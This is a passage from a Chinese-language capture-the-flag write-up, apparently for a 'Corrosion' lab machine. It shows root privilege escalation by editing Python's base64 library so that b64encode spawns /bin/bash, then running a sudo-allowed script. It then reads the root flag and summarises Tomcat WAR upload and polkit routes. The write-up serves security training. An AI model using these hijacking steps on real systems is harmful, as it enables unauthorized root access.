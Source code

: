     ```python
    # nano /usr/lib/python3.8/base64.py
    import os
    ....
    def b64encode(s, altchars=None):
        os.system("/bin/bash")
    ```
    
    需要写在`b64encode` 函数里边是因为它文件（`randombase64.py`）里面调用了该函数
    
4. 执行文件`randombase64.py`
    
    ```python
    randy@corrosion:~$ sudo /usr/bin/python3.8 /home/randy/randombase64.py
    Enter your string: 1
    root@corrosion:/home/randy# 
    ```
    
    获得root用户！！！
    
5. 读取`flag`文件
    
    ```python
    root@corrosion:~# cat root.txt
    2fdbf8d4f894292361d6c72c8e833a4b
    ```
    

## 总结

学到tomcat后台提权方法，其实不止上传war方法，也可以直接使用MSF，不过使用方法是一样的，但是方便

以及提权，我们可以直接使用look来读取root的flag文件的，并且在laye用户也可以使用**`polkit-agent-helper-1`** 来提权的，不过拿到root权限不是更好吗